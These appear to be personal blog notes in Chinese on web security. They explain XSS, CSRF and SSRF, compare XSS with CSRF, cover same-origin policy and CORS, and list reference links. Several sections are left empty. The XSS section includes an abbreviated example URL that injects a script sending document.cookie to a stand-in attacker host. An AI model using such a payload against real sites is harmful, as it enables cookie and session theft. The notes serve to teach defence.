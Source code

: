 ```yaml
---
title: "網頁安全筆記"
date: 2019-09-02T05:44:11.000Z
published: 2019-09-02T05:44:11.000Z
author: f6bfb5
summary:
layout: blog
---
```


## XSS

- Cross-site scripting
- 利用動態產生內容（ex. 輸入欄位）的網頁漏洞，注入惡意腳本的攻擊手法
- 例如使用短網址包覆帶有惡意腳本的網址：
  `http://app.com/?name=?<script>...attack.com/bad.php?data=document.cookie;</script>`
- 攻擊者便可取得使用者的 Cookie，並藉此盜用相關資料
- 可以針對特殊文字進行處理 (例如 `<`、`&`) 防止攻擊。

## CSRF

- Cross-site request forgery（跨站請求偽造）
- 利用網頁應用本身的漏洞，進行原定以外處理的攻擊手法
- 例如使用短網指包覆指定行為的網址：`http://app.com/post/`
- 導致使用者身份被盜用，從而進行非原定的行為，例如留下犯罪宣言的訊息
- 可以在 request 裡加入 token 驗證這個行為是否真的來自該使用者
- [これで完璧！今さら振り返る CSRF 対策と同一オリジンポリシーの基礎](https://qiita.com/mpyw/items/0595f07736cfa5b1f50c)

## XSS 和 CSRF 的差異

| 觀點     | XSS                           | CSRF                       |
| -------- | ----------------------------- | -------------------------- |
| 漏洞     | 網頁應用程式                  | 網頁應用程式               |
| 執行機制 | 造訪有問題的網址              | 造訪有問題的網址           |
| 執行源頭 | 網頁瀏覽器 (Client)           | 網頁伺服器 (Server)        |
| 執行內容 | JavaScript 所能執行的任意內容 | 網頁應用程式內所定義的處理 |
| 執行前提 | 無                            | 受害者需先登入網頁應用程式 |

## SQL Injection

## ClickJacking

## Open Redirect

## DOS

## Insecure Direct Object Reference Vulnerability

## JSON Hijacking

- [Json Hijacking 簡介 « 關於網路那些事...](https://adon988.logdown.com/posts/7820118-introduction-to-json-hijacking)

## SSRF

- Server-side request forgery
- 利用公開網路與內部網路溝通的漏洞，進行繞過權限認證的攻擊方式

## [同源政策（Same-Origin Policy）](https://developer.mozilla.org/zh-TW/docs/Web/Security/Same-origin_policy)

### 什麼是 CORS（Cross-Origin Resource Sharing，跨來源資源共用）？

### 解決方案

#### 從 API 後端開放權限

#### CORS-anywhere

```javascript
// use cors-anywhere to fetch api data
const cors = "https://cors-anywhere.herokuapp.com/";
// origin api url
const url = "https://tw.rter.info/capi.php?=1568944322585";

// fetch api url by cors-anywhere
axios.get(`${cors}${url}`).then(
  (response) => {
    const msg = response.data;
    document.body.innerHTML = JSON.stringify(msg);
  },
  (error) => {}
);
```

### 參考文章

- [\[教學\] CORS 是什麼? 如何設定 CORS? | Shubo’s Notes](https://shubo.io/what-is-cors/)
- [輕鬆理解 Ajax 與跨來源請求](https://blog.techbridge.cc/2017/05/20/api-ajax-cors-and-jsonp/)
- [原來 CORS 沒有我想像中的簡單](https://blog.techbridge.cc/2018/08/18/cors-issue/)
- [和 CORS 跟 cookie 打交道](https://medium.com/d-d-mag/%E5%92%8C-cors-%E8%B7%9F-cookie-%E6%89%93%E4%BA%A4%E9%81%93-dd420ccc7399)
- [新的取消請求方式 - AbortController | 半熟前端](https://blog.kalan.dev/abort-controller/)
- [这波跨域不亏 · Issue #9 · xixigiggling/my-ice-cream](https://github.com/xixigiggling/my-ice-cream/issues/9)

## 相關文章

- [安全な Web サイトのつくりかた　ざっくりまとめ part1](https://qiita.com/E-46/items/93199f38bdacd6b6076a)
- [安全な Web サイトのつくりかた　ざっくりまとめ part2](https://qiita.com/E-46/items/aa43b6a01de8ab205591)
- [個人開発でも最低限やっておくべきインフラレベルでのセキュリティ対策](https://qiita.com/uichi/items/c34536b66101e9440cf2)
- [Web セキュリティ覚書 : "HTTPS" 編 [ 初学者向け ]](https://qiita.com/Tsutou/items/cea87dbab0f3d0080422)
- [Web セキュリティ覚書 : "攻撃" 編 [ 初学者向け ]](https://qiita.com/Tsutou/items/4fd498f8ab2638bd5650)
- [Same Origin Policy 同源政策 ! 一切安全的基礎](https://medium.com/@jaydenlin/same-origin-policy-%E5%90%8C%E6%BA%90%E6%94%BF%E7%AD%96-%E4%B8%80%E5%88%87%E5%AE%89%E5%85%A8%E7%9A%84%E5%9F%BA%E7%A4%8E-36432565a226)
- [3 分でわかる XSS と CSRF の違い](https://qiita.com/wanko5296/items/142b5b82485b0196a2da)
- [SSRF 基礎 - Speaker Deck](https://speakerdeck.com/hasegawayosuke/ssrfji-chu)
- [URL の取り扱いには要注意！ SSRF の攻撃と対策 | yamory Blog](https://yamory.io/blog/about-ssrf/)
